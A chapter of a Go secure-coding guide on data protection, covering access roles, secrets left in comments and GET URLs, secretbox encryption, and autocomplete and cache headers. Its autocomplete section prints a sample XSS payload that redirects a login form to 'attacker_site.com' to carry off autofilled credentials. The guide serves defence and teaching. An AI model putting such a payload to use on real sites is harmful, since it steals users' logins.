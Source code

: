 Data Protection
===============

Nowadays, one of the most important things in security in general is data
protection. You don't want something like:

![All your data are belong to us](files/cB52MA.jpeg)

Simply put, data from your web application needs to be protected. Therefore in
this section, we will take a look at the different ways to secure it.

One of the first things you should tend to is creating and implementing the
right privileges for each user, and restrict them to only the functions they
really need.

For example, consider a simple online store with the following user roles:

* _Sales user_: Allowed to only view a catalog
* _Marketing user_: Allowed to check statistics
* _Developer_: Allowed to modify pages and web application options

Also, in the system configuration (aka webserver), you should define the right
permissions.

The primary thing to perform is to define the right role for each user - web or
system.

Role separation and access controls are further discussed in
the [Access Control][1] section.

## Remove sensitive information

Temporary and cache files which contain sensitive information should be removed
as soon as they're not needed. If you still need some of them, move them to
protected areas or encrypt them.

### Comments

Sometimes developers leave comments like _To-do lists_ in the source-code, and
sometimes, in the worst case scenario, developers may leave credentials.

```go
// Secret API endpoint - /api/mytoken?callback=myToken
fmt.Println("Just a random code")
```

In the above example, the developer has an endpoint in a comment which, if not
well protected, could be used by a malicious user.

### URL

Passing sensitive information using the HTTP GET method leaves the web
application vulnerable because:

1. Data could be intercepted if not using HTTPS by MITM attacks.
2. Browser history stores the user's information. If the URL has
   session IDs, pins or tokens that don't expire (or have low entropy),
   they can be stolen.
3. Search engines store URLs as they are found in pages
4. HTTP servers (e.g. Apache, Nginx), usually write the requested URL, including
   the query string, to unencrypted log files (e.g. `access_log`)

```go
req, _ := http.NewRequest("GET", "http://mycompany.com/api/mytoken?api_key=000s3cr3t000", nil)
```

If your web application tries to get information from a third-party website
using your `api_key`, it could be stolen if anyone is listening within your
network or if you're using a Proxy. This is due to the lack of HTTPS.

Also note that parameters being passed through GET (aka query string) will be
stored in clear, in the browser history and the server's access log regardless
whether you're using HTTP or HTTPS.

HTTPS is the way to go to prevent external parties other than the client and the
server, to capture exchanged data. Whenever possible sensitive data such as the
`api_key` in the example, should go in the request body or some header. The same
way, whenever possible use one-time only session IDs or tokens.

### Information is power

You should always remove application and system documentation on the production
environment. Some documents could disclose versions, or even functions that
could be used to attack your web application (e.g. Readme, Changelog, etc.).

As a developer, you should allow the user to remove sensitive information that
is no longer used. For example, if the user has expired credit cards on his
account and wants to remove them, your web application should allow it.

All of the information that is no longer needed must be deleted from the
application.

#### Encryption is the key

Every piece of highly-sensitive information should be encrypted in your web
application. Use the military-grade [encryption available in Go][2]. For more
information, see the [Cryptographic Practices][3] section.

If you need to implement your code elsewhere, just build and share the
binary, since there's no bulletproof solution to prevent reverse engineering.

Getting different permissions for accessing the code and limiting the access
for your source-code, is the best approach.

Do not store passwords, connection strings (see example for how to secure
database connection strings on [Database Security][4] section), or other
sensitive information in clear text or in any non-cryptographically secure
manner, both on the client and server sides.
This includes embedding in insecure formats (e.g. Adobe flash or compiled code).

Here's a small example of encryption in Go using an external package
`golang.org/x/crypto/nacl/secretbox`:

```go
// Load your secret key from a safe place and reuse it across multiple
// Seal calls. (Obviously don't use this example key for anything
// real.) If you want to convert a passphrase to a key, use a suitable
// package like bcrypt or scrypt.
secretKeyBytes, err := hex.DecodeString("6368616e676520746869732070617373776f726420746f206120736563726574")
if err != nil {
    panic(err)
}

var secretKey [32]byte
copy(secretKey[:], secretKeyBytes)

// You must use a different nonce for each message you encrypt with the
// same key. Since the nonce here is 192 bits long, a random value
// provides a sufficiently small probability of repeats.
var nonce [24]byte
if _, err := rand.Read(nonce[:]); err != nil {
    panic(err)
}

// This encrypts "hello world" and appends the result to the nonce.
encrypted := secretbox.Seal(nonce[:], []byte("hello world"), &nonce, &secretKey)

// When you decrypt, you must use the same nonce and key you used to
// encrypt the message. One way to achieve this is to store the nonce
// alongside the encrypted message. Above, we stored the nonce in the first
// 24 bytes of the encrypted text.
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```

The output will be:

```
hello world
```

## Disable what you don't need

Another simple and efficient way to mitigate attack vectors is to guarantee that
any unnecessary applications or services are disabled in your systems.

### Autocomplete

According to [Mozilla documentation][1], you can disable autocompletion in the
entire form by using:

```html
<form method="post" action="/form" autocomplete="off">
```

Or a specific form element:

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

This is especially useful for disabling autocomplete on login forms. Imagine a
case where a XSS vector is present in the login page.
If the malicious user creates a payload like:

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

It will send the autocomplete form fields to the `attacker_site.com`.

### Cache

Cache control in pages that contain sensitive information should be disabled.

This can be achieved by setting the corresponding header flags, as shown in the
following snippet:

```go
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```

The `no-cache` value tells the browser to revalidate with the server before
using any cached response. It does not tell the browser to _not cache_.

On the other hand, the `no-store` value is really about disabling caching
overall, and must not store any part of the request or response.

The `Pragma` header is there to support HTTP/1.0 requests.

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: https://godoc.org/golang.org/x/crypto
[3]: /cryptographic-practices/README.md
[4]: /database-security/README.md
